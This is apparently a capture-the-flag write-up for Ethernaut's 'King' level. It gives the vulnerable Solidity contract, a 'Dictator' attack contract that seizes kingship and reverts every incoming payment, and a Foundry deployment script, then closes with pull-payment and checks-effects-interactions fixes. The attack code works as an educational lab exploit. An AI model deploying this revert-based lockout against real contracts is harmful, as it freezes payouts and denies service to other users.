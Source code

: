 # Ethernaut Level 9 King

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

Our goal is to somehow claim the kingship and lock it to ourselves so that no one can reclaim it. It is not difficult to claim kingship. We can just send the contract with a larger amount of prize.  We might want to claim the ownership, since in the `receive()` function, `require(msg.value >= prize || msg.sender == owner)` means that the owner can always reclaim kingship with zero money. However, we cannot really claim ownership of the contract because ownership can only be changed in the `constructor`, and it can and can only be called once during the deployment process.

So how can we *lock* the kingship?

We can create a new malicious contract, claim the kingship by sending a certain amount of money, and then revert all the transactions sent to the contract, so that the target will always stuck at `payable(king).transfer(msg.value)`, and king will never be changed. This is a typical *"king of the hill"* attack.

`Dictator.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Dictator {
    uint256 immutable i_value;
    address immutable i_king;

    constructor(uint256 value, address king) payable{
        i_value = value;
        i_king = king;
    }

    function claimKing() external {
        payable(i_king).call{value: i_value}("");
    }

    receive() external payable {
        revert();
    }
}
```

Upon deployment, the `Dictator` contract will be fund a certain amount of money, which will then be used to claim kingship in `claimKing()`. And it will basically revert any transaction that is sent to it. 

`King.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {King} from "../src/King.sol";
import {Dictator} from "../src/Dictator.sol";

contract KingScript is Script {
    King king = King(payable(0xXXXXXXXXXXX));

    function run() external {
        uint256 prize = king.prize();
        uint256 value = prize + 1 wei;
        console.log("prize:", prize);
        console.log("value:", value);
        console.log("Current king:", king._king());

        vm.startBroadcast();
        Dictator dictator = new Dictator{value: value}(value, address(king));
        dictator.claimKing();
        vm.stopBroadcast();
        console.log("New king:", king._king());
    }
}
```

In the script, `value` is going to be 1 wei greater than the current prize, so that we can assure the money is enough.

We can mitigate the risks by adopting a pull vs push payment style, where we can record how much the old king is owed, and let them *pull* (claim) it later in a different function. We should also use `call()` instead of `transfer()` and require it to be successful.

Also, we need to stick to the CEI (check-effect-interaction) standard, and always put the state changing **in front of **actual interactions.